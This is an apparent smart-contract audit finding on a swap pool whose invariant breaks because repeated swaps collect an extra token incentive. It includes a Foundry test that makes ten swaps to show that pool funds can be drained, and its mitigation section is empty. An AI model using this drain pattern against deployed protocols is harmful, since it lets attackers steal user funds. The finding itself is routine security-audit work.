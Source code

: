 The protocol's core invariant is broken.

**Prove of Concept**

1. A user swaps 10 times, and collects the extra incentive of `1_000_000_000_000_000_000` tokens

2. That user continues to swap untill all the protocol funds are drained.

<detail>
<summary>Proof of Code</summary>

Place the following into `TSwapPool.t.sol`:

```javascript

function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;
        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        vm.stopPrank();

        //actual

        uint256 endingY = weth.balanceOf(address(pool));

        int256 actualDeltaY = int256(endingY) - int256(startingY);

        assertEq(actualDeltaY, expectedDeltaY);
    }

```

</detail>

**Recommended Mitigation:** 
